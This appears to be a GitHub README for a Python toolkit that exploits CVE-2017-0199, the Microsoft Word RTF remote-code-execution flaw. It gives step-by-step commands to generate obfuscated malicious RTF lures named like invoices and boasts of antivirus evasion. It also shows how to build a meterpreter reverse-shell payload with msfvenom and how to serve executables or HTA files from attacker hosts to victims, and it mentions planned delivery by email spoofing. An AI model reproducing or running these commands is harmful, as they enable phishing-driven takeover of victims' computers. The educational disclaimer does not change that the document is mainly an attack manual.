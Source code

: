 ## Exploit toolkit CVE-2017-0199 - v3.0

Exploit toolkit CVE-2017-0199 - v3.0 is a handy python script which provides a quick and effective way to exploit Microsoft RTF RCE. It could generate a malicious (Obfuscated) RTF file and deliver metasploit / meterpreter / other payload to victim without any complex configuration.

### Video tutorial (for v2.0)

https://youtu.be/42LjG7bAvpg

### Release note:

Introduced following capabilities to the script

	- Generate Malicious Obfuscated RTF file ( using -x option ) to bypass AV
##### Detection rate before obfuscation

![alt tag](https://raw.githubusercontent.com/bhdresh/CVE-2017-0199/v2.0-beta-3/Invoice_Normal.jpeg)
##### Detection rate after obfuscation:
![alt tag](https://raw.githubusercontent.com/bhdresh/CVE-2017-0199/v2.0-beta-3/Invoice_Obfuscated.jpeg)

	- Deliver custom HTA file ( using -H option )
	- Deliver remote payload

Version: Python version 2.7.13

### Future release:

Working on following feature

	- Automatically send generated malicious RTF to victim using email spoofing
	

### Scenario 1: Deliver local payload
###### Example commands
	1) Generate malicious RTF file
	   # python cve-2017-0199_toolkit.py -M gen -w Invoice.rtf -u http://192.168.56.1/logo.doc -x 1
	2) (Optional, if using MSF Payload) : Generate metasploit payload and start handler
	   # msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f exe > /tmp/shell.exe
	   # msfconsole -x "use multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.56.1; run"
	3) Start toolkit in exploit mode to deliver local payload
	   # python cve-2017-0199_toolkit.py -M exp -e http://192.168.56.1/shell.exe -l /tmp/shell.exe
###### Sequence diagram

![alt tag](https://raw.githubusercontent.com/bhdresh/CVE-2017-0199/v3.0-beta-2.0/Scenario1.jpg)


### Scenario 2: Deliver Remote payload
###### Example commands
	1) Generate malicious RTF file
	   # python cve-2017-0199_toolkit.py -M gen -w Invoice.rtf -u http://192.168.56.1/logo.doc -x 1
	2) Start toolkit in exploit mode to deliver remote payload
	   # python cve-2017-0199_toolkit.py -M exp -e http://remoteserver.com/shell.exe
###### Sequence diagram

![alt tag](https://raw.githubusercontent.com/bhdresh/CVE-2017-0199/v3.0-beta-2.0/Scenario2.jpg)


### Scenario 3: Deliver custom HTA file
###### Example commands
	1) Generate malicious RTF file
	   # python cve-2017-0199_toolkit.py -M gen -w Invoice.rtf -u http://192.168.56.1/logo.doc -x 1
	2) Start toolkit in exploit mode to deliver custom HTA file
	   # python cve-2017-0199_toolkit.py -M exp -H /tmp/custom.hta
###### Sequence diagram

![alt tag](https://raw.githubusercontent.com/bhdresh/CVE-2017-0199/v3.0-beta-2.0/Scenario3.jpg)


### Command line arguments:

    # python cve-2017-0199_toolkit.py -h

    This is a handy toolkit to exploit CVE-2017-0199 (Microsoft Word RTF RCE)

    Modes:

    -M gen                                          Generate Malicious RTF file only

         Generate malicious RTF file:

          -w <Filename.rtf>                   Name of malicious RTF file (Share this file with victim).

          -u <http://attacker.com/test.hta>   The path to an hta file. Normally, this should be a domain or IP where        this                                          tool is running.
	                                      For example, http://attackerip.com/test.hta (This URL will be included in 	                                              malicious RTF file and will be requested once victim will open malicious RTF file.
          -x 0|1  (default = 0)               Generate obfuscated RTF file. 0 = Disable, 1 = Enable.

					      
    -M exp                                          Start exploitation mode

         Exploitation:
	 
          -H </tmp/custom.hta>                Local path of a custom HTA file which needs to be delivered and executed on target.
	                                          NOTE: This option will not deliver payloads specified through options "-e" and "-l"
						  
          -p <TCP port:Default 80>            Local port number.

          -e <http://attacker.com/shell.exe>  The path of an executable file / meterpreter shell / payload  which needs to be executed on target.

          -l </tmp/shell.exe>                 If payload is hosted locally, specify local path of an executable file / meterpreter shell / payload.


### Disclaimer

This program is for Educational purpose ONLY. Do not use it without permission. The usual disclaimer applies, especially the fact that me (bhdresh) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears NO responsibility for content or misuse of these programs or any derivatives thereof. By using this program you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not bhdresh's responsibility.

### Credit

@nixawk for RTF sample, @bhdresh

### Bug, issues, feature requests

Obviously, I am not a fulltime developer so expect some hiccups

Please report bugs, issues through https://github.com/bhdresh/CVE-2017-0199/issues/new
